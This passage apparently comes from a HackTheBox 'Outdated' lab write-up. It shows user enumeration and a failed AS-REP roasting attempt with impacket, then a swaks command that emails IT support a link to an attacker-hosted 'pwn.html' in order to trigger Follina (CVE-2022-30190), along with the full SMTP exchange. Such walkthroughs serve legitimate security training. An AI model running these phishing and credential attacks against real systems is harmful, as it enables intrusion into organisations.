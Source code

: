 ```bash
S-1-5-21-4089647348-67660539-4016542185-1109 *unknown*\*unknown* (8)
```
We find two users - `btables` & `sflowers`

**Asreproast** fails:
```bash
➜  outdated impacket-GetNPUsers outdated.htb/ -usersfile /htb/outdated/users.txt -format hashcat -dc-ip 10.10.11.175
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User btables doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sflowers doesn't have UF_DONT_REQUIRE_PREAUTH set
```

### Step 3
The initial vectors on this machine are slim and I can't see any other way in then utilizing SMTP, especially since CVE-2022-30190 (Follina) is listed in the PDF, so I decide to reboot the box - but to no avail. At this point I needed a sanity check so I went to the HackTheBox discord to confirm my suspicions, and sure enough SMTP is the vector for foothold. 

I waited for a day before continuing, and heard that the box should be fixed and more stable. 

Instead of logging in to the remote SMTP server over telnet, or using my own local SMTP server, we can try a third option - `swaks`. 

```bash
➜  outdated swaks --to itsupport@outdated.htb --from 0xpthree@exploit.se --server mail.outdated.htb --body "http://10.10.14.6/pwn.html"
=== Trying mail.outdated.htb:25...
=== Connected to mail.outdated.htb.
<-  220 mail.outdated.htb ESMTP
 -> EHLO void
<-  250-mail.outdated.htb
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> MAIL FROM:<0xpthree@exploit.se>
<-  250 OK
 -> RCPT TO:<itsupport@outdated.htb>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Mon, 15 Aug 2022 15:14:51 +0200
 -> To: itsupport@outdated.htb
 -> From: 0xpthree@exploit.se
 -> Subject: test Mon, 15 Aug 2022 15:14:51 +0200
 -> Message-Id: <20220815151451.031141@void>
 -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
 -> 
 -> http://10.10.14.6/pwn.html
 -> 
 -> 
 -> .
<-  250 Queued (10.406 seconds)
 -> QUIT
<-  221 goodbye
```
